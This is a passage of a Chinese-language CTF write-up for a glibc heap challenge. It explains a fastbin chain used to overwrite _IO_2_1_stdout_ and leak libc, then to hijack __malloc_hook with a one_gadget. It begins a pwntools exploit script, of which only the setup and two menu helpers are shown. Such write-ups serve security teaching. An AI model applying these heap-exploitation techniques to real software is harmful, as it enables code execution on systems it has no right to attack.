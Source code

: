   经过这些步骤，此时内存布局如下所示
  ![K1ng_in_h3Ap_I内存布局1](K1ng_in_h3Ap_I内存布局1.PNG)

  此时，在0x70大小的fast bin链上，已经形成了**chunk_baes + 0x100**->**chunk_baes**->**_IO_2_1_stdout_ - 0x43**的链，则我们可以覆盖**_IO_2_1_stdout_**的值，从而泄露glibc基址
  下面则是普通的伪造chunk，从而修改**__malloc_hook**为**one_gadget**，此时使用前面的抬栈方式即可构建满足约束条件的**one_gadget**


  最后，完整的wp如下所示
  ```python
#!/usr/bin/python2
# -*- coding:utf-8 -*-
from pwn import *
import sys
import platform

'''
	待修改数据
'''
context.log_level = 'debug'
context.arch = 'amd64'				# 32位使用i386
context.os = 'linux'

execve_file = './pwn'
lib_file = './libc.so.6'
argv = []




'''
	elf.plt[`symbol`] 获取elf文件中导入符号的plt地址
	elf.got[`symbol`] 获取elf文件中导入符号的got地址
	elf.sym['symbol'] 获取elf文件中本地符号的函数实际地址
'''
if execve_file != None:
	elf = ELF(execve_file)

'''
	lib.sym[`symbol`] 获取lib中符号地址
	lib.search['string'].next() 获取lib中字符串地址
'''
if lib_file != None:
	lib = ELF(lib_file)

log.info('-----------------------------------------------------------')


'''
	执行爆破攻击
	只有当成功获取shell或者键盘Ctrl+C退出时，程序中止循环
	否则程序一直进行循环
'''


def wp_add(r, idx, size):
	r.sendlineafter('>>', '1')
	r.sendlineafter('input index:', str(idx))
	r.sendlineafter('input size:', str(size))

def wp_delete(r, idx):
	r.sendlineafter('>>', '2')
	r.sendlineafter('input index:', str(idx))

  ```
